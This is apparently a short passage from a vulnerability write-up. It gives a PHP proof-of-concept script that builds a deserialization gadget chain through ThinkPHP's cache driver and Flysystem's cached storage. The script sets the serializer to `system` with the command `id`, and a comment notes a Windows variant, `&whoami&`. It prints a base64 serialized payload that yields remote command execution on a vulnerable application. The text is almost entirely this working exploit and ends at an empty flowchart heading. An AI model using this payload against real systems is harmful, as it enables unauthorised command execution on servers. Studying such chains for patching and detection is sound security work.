 #### POC
```php
<?php 

namespace League\Flysystem\Cached\Storage {
	abstract class AbstractCache {
		protected $autosave = false;
    	protected $complete = "`id`";
        // protected $complete = "\"&whoami&" ;
        // 在Windows环境中反引号无效，用&替代
	}
}

namespace think\filesystem {
	use League\Flysystem\Cached\Storage\AbstractCache;
	class CacheStore extends AbstractCache {
		protected $key = "1";
		protected $store;
		public function __construct($store="") {
			$this->store = $store;
		}
	}
}

namespace think\cache {
	abstract class Driver {
		protected $options = ["serialize"=>["system"],"expire"=>1,"prefix"=>"1","hash_type"=>"sha256","cache_subdir"=>"1","path"=>"1"];
	}
}

namespace think\cache\driver {
	use think\cache\Driver;
	class File extends Driver{}
}

namespace {
	$file = new think\cache\driver\File();
	$cache = new think\filesystem\CacheStore($file);
	echo base64_encode(serialize($cache));
}
?>
```

#### POC链流程图
